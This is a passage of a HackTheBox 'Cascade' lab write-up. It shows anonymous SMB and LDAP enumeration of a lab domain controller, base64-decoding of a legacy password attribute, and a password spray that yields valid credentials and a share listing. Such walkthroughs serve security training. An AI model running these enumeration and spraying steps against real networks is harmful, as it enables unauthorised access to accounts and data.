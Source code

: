 ```yaml
---
title: HackTheBox-Cascade
date: 2024-12-24 09:40:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [ldapsearch, VNC, AD-Recycle-Bin]     # TAG names should always be lowercase
image : /assets/images/images.jpg
---
```


## SMB-enum

    ➜  cascade nxc smb 10.10.10.182 -u '' -p '' --shares
    SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:Fals

## ldapsearch

    ➜  cascade ldapsearch -x -b "dc=cascade,dc=local" -H ldap://10.10.10.182 > ldap_resul.txt

    ➜  cascade cat ldap_resul.txt | grep "Pwd"
    maxPwdAge: -9223372036854775808
    minPwdAge: 0
    minPwdLength: 5
    badPwdCount: 0
    maxPwdAge: -37108517437440
    minPwdAge: 0
    minPwdLength: 0
    badPwdCount: 0
    badPwdCount: 0
    badPwdCount: 0
    badPwdCount: 0
    cascadeLegacyPwd: clk0bjVldmE=

### grab pass

    ➜  cascade echo -n "clk0bjVldmE=" | base64 -d
    rY4n5eva

## password-spray

    ➜  cascade nxc smb 10.10.10.182 -u users.txt -p 'rY4n5eva' --shares
    SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
    SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\CascGuest:rY4n5eva STATUS_LOGON_FAILURE
    SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\arksvc:rY4n5eva STATUS_LOGON_FAILURE
    SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\s.smith:rY4n5eva STATUS_LOGON_FAILURE
    SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
    SMB         10.10.10.182    445    CASC-DC1         [*] Enumerated shares
    SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
    SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
    SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
    SMB         10.10.10.182    445    CASC-DC1         Audit$                          
    SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
    SMB         10.10.10.182    445    CASC-DC1         Data            READ            
    SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
    SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share                                                                                      
    SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers                                                                                         